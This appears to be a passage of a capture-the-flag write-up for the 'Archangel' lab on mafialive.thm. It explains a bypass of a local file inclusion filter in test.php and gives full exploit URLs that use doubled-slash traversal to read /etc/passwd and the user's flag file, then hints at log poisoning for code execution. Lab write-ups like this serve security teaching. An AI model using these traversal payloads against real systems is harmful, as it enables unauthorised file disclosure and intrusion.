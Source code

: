 We find the 2nd flag in the source code.

#### Code Analysis

We can see a filter that has been applied through containStr() function to prevent the LFI attacks. This means the view parameter can only include those files which start with “/var/www/html/development\_testing” and it shouldn’t contain the “../..” string which could be abused for path traversal.

A well-known bypass for this filter is to use alternating dots and double-dots “./.././../” or "..//..//"

## Exploitation

Reading local files from the server.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we use this to bypass and view the /etc/passwd file.
http://mafialive.thm/test.php?view=/var/www/html/development_testing//..//..//..//..//etc/passwd
```
{% endcode %}

<figure><img src=".gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

We see a  user "Archangel", we could try and view the user.txt file.

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://mafialive.thm/test.php?view=/var/www/html/development_testing//..//..//..//..//home//archangel//user.txt
```
{% endcode %}

<figure><img src=".gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

#### Gaining RCE

The hint says "Poison", google LFI Poison" and yoou will see many blogs on LFI RCE.
